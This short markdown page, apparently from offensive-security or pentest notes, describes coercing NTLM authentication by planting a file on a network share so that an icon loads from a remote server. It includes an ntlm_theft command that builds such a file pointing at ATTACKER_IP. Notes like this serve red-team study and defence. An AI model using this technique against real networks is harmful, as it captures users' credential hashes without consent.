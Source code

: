 ```yaml
---
description: Coercing users into authenticating to us
---
```


# Coercing

How can we coerce users to authenticate to something we control?&#x20;



* If we have write access to a network file share (that is used regularly),&#x20;
* Create a sneaky little file to coerce those users to authenticate to our server.&#x20;
* We can do this by creating a file that,&#x20;
* when viewed within the file browser, will coerce authentication automatically.&#x20;
* coercing authentication by requesting that an element, such as the file icon, is loaded from a remote location.&#x20;

Tool

We will be using the [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) tool to create these documents.

```
python3 ntlm_theft.py -g lnk -s ATTACKER_IP -f stealthy
```
